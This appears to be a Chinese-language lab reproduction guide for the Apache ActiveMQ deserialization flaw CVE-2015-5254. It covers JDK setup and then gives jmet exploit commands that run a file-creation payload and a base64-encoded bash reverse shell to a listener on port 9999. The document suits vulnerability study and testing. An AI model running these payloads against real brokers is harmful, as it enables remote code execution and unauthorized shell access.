 # 

# Apache ActiveMQ 反序列化漏洞 (CVE-2015-5254)

## 漏洞描述

Apache ActiveMQ是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持Java消息服务，集群，Spring Framework等。Apache ActiveMQ 5.13.0之前5.x版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的Java消息服务（JMS）ObjectMessage对象利用该漏洞执行任意代码。

## 漏洞影响

```
Apache ActiveMQ 5.13.0之前5.x版本
```

## 环境配置

### 安装jdk

查看java版本，如果是java 11需要切换到java 8

```
java -version
```

安装java 8，默认安装路径/usr/lib/jvm/java-8-openjdk-amd64

```
sudo apt install openjdk-8-jdk
```

配置环境变量，添加jdk安装路径

```
sudo vim ~/.bashrc

# 在最后一行添加
export JAVA_HOME=/usr/lib/jvm/java-8-openjdk-amd64
```

### 切换jdk版本

采用update-alternatives命令进行版本切换

 /usr/bin/java和/usr/lib/jvm/java-8-openjdk-amd64/bin/java两个路径一定要和自己的路径吻合

```
sudo update-alternatives --install /usr/bin/java java /usr/lib/jvm/java-8-openjdk-amd64/bin/java 1070
```

切换jdk

```
sudo update-alternatives --config java
```

![image-20220221132209838](./images/202202211347913.png)

再次查看java版本，切换成功

![image-20220221132246597](./images/202202211347914.png)

### 漏洞复现

下载 jmet [下载链接](https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar)

```shell
wget https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar
mkdir external
```

对目标发送一个生成**/tmp/vuln**的 payload

```plain
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/awesome_poc" -Yp ROME 192.168.174.128 61616
```

![image-20220221133654012](./images/202202211347915.png)

访问 http://192.168.174.128:8161/admin/browse.jsp?JMSDestination=event 可以看到多了一条消息队列，ID为kali-38087-1645421794512-1:1:1:1:1

![image-20220221133733242](./images/202202211347916.png)

点击这个信息触发文件创建，成功执行命令 touch /tmp/awesome_poc

![image-20220221133952983](./images/202202211347917.png)

![2](./images/202202211347918.png)也可以创建一个反弹shell的payload

```shell
bash -i >& /dev/tcp/192.168.174.128/9999 0>&1  (base64编码)
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}

# 发送payload
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}" -Yp ROME 192.168.174.128 61616
```

![image-20220221134243490](./images/202202211347919.png)

查看消息队列，ID为kali-38435-1645422155171-1:1:1:1:1

![image-20220221134313545](./images/202202211347920.png)

监听9999端口，点击消息队列会触发命令执行，反弹Shell

![image-20220221134508900](./images/202202211347921.png)


